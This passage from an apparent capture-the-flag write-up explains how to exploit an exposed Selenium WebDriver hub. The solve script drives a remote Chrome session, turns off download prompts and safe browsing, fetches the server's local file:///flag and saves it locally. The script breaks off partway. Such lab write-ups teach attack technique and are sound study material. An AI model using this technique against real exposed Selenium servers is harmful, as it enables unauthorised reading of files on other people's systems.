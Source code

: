 Now we just have to initiate a download by manually visiting the path of the `flag` binary, which is nicely placed just in the root directory (as we can see in the Dockerfile). We can do so by using this code:
```python
driver.get("file:///flag")  # From Dockerfile: COPY ./flag /flag
```

However, when I was testing this locally, I realised that I have to manually click confirm in a pop-up download window asking for save location. I am not sure if the same will happen on the remote server, but to be safe, I just quickly googled the way to disable that behaviour. Luckily, it is simple enough.

```python
# Disable download window popup
prefs = {"download.default_directory": "./",
         "download.prompt_for_download": 0,
         "profile.default_content_settings.popups": 0,
         "profile.default_content_setting_values.automatic_downloads": 1,
         'safebrowsing_for_trusted_sources_enabled': 0}

chrome_options.add_experimental_option("prefs", prefs)
```
Note that we have to insert the above snippet before the `driver = webdriver.Remote()` line for our updated `chrome_options` to take effect.

Next, we just have to run the `get_downloaded_files()` wrapped in `WebDriverWait()` and wait for at least 1 file to appear as 'completed' in the downloads page. Then, retrieve the file contents and save it locally.
```python
# list all the completed remote files (waits for at least one with timeout of 10 seconds)
files = WebDriverWait(driver, 10, 1).until(get_downloaded_files)

# get the content of the first file remotely
content = get_file_content(driver, files[0])

# save the content in a local file in the working directory
with open('flag_ans', 'wb') as f:
    f.write(content)
```

Finally, we just have to execute the binary, open with any decompiler/hexeditor or simply `strings` it to get the flag, since it is in plain text.

The final solve script:
```python
import os, time, base64
from selenium import webdriver
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# Fix chrome crash
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")

# Disable download window popup
prefs = {"download.default_directory": "./",
         "download.prompt_for_download": 0,
         "profile.default_content_settings.popups": 0,
         "profile.default_content_setting_values.automatic_downloads": 1,
         'safebrowsing_for_trusted_sources_enabled': 0}

chrome_options.add_experimental_option("prefs", prefs)

# load webdrive module from chrome instance/session
driver = webdriver.Remote(
    command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
    desired_capabilities=DesiredCapabilities.CHROME,
```